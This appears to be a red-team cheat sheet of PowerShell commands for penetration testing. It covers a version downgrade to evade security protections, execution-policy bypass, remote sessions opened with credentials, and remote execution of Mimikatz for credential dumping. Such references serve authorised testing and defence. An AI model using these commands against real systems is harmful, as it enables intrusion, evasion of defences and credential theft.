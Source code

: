 # Exploitation with PowerShell

**Description:** Various commands related to PowerShell usage during penetration tests or red team engagements.

### Enumerate Installed Versions

**Information:** This can be helpful when determining if a PowerShell downgrade attack will work. \
`(Get-ItemProperty HKLM:\SOFTWARE\Microsoft\PowerShell\*\PowerShellEngin e -Name PowerShellVersion).PowerShellVersion`

If PowerShell 2.0 is installed then we can bypass multiple security protections enabled in more recent PowerShell Version 5 releases: \
`powershell.exe -Version 2`

### Bypassing Execution Policy
**Information:** Execution policies can be disabled in multiple ways. It is not a sufficient security protection to prevent unsigned scripts from being loaded. \
`powershell.exe -exec bypass` \
`Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process`

### Creating a PowerShell Session
**Information:** We can establish a persistent connection in PowerShell using Enter-PSSession. This can make life significantly easier and reduce overhead. \
`New-PSSession -ComputerName [IP] -Credential [USER] \`
`Enter-PSSession -Session #`

### Executing Scripts Remotely
**Information:** We can execute scripts remotely with PowerShell. \
`Invoke-Command -Session # -FilePath C:\Users\Parzival\Desktop\Mimikatz.exe`
